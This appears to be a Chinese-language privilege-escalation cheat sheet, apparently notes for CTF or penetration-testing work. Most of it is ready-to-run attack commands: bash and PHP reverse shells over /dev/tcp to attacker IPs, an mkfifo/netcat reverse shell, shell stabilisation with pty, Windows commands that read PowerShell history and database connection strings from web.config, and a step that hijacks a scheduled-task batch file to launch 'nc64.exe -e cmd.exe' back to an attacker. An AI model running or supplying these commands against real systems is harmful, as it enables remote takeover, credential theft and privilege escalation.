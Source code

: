 
搭建一个临时的服务器
python -m http.server PORT



## 提权 

### 反shell
反shell(bash):  
``````
#!/bin/bash
bash -i >& /dev/tcp/10.10.10.10/4444 0>&1
``````
反shell(php):  
``````
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/<攻击者ip>/1234 0>&1'");
?>
``````
提权的shell写好后可能要用chmod来增加执行权限


rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.14.21.44 1123 >/tmp/f



### 稳定shell

>python

python -c 'import pty; pty.spawn("/bin/bash")'

>script

script -qc /bin/bash /dev/null

### powershell-Windows
- Windows用type命令读取文件内容(cat)  
- Windows用dir命令列出该文件夹下的所有文件(ls)  
- 

``````
powershell历史
type %userprofile%\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
注意：上面的命令只能在 cmd.exe 中运行，因为 Powershell 不会将其识别%userprofile%为环境变量。要从 Powershell 读取该文件，您必须替换%userprofile%为$Env:userprofile. 
``````
``````
这是在文件上查找数据库连接字符串的快速方法：
type C:\Windows\Microsoft.NET\Framework64\v4.0.30319\Config\web.config | findstr connectionString
``````
### Scheduled Tasks-Windows
``````
可以使用不带任何选项的命令从命令行列出计划任务 schtasks
schtasks /query /tn vulntask /fo list /v  

要检查可执行文件的文件权限，我们使用icacls
icacls c:\tasks\schtask.bat
``````
更改bat生成反向shell
echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat  

